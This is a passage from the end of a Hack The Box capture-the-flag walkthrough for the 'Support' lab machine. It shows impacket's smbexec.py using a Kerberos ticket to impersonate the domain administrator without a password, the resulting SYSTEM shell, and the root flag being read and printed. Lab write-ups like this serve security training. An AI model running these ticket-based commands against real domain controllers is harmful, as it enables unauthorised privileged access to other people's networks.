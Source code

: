 And finally we can use impacket's smbexec.py tool to connect to the target using the TGT we aquired to impersonate the administrator account. 

Privileged Shell Access
-----------------------

Once connected we can check what account we are controlling and we see that we are indeed logged in as the system account. Navigate around and find any files of interest. The root flag can be found at ‘C:\\Users\\administrator\\Desktop\\root.txt’

```text-plain
smbexec.py support.htb/administrator@dc.support.htb -no-pass -k


C:\Windows\system32>whoami
nt authority\system


C:\Windows\system32>dir c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 955A-5CBB

 Directory of c:\users\administrator\desktop

05/28/2022  04:17 AM   <DIR>          .
05/28/2022  04:11 AM   <DIR>          ..
04/03/2023  03:40 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   3,963,105,280 bytes free

C:\Windows\system32>type c:\users\administrator\desktop\root.txt
cf32650209795cc4a03e8e2b42c646b1
```

Congratulations on completing this machine! When in doubt try harder.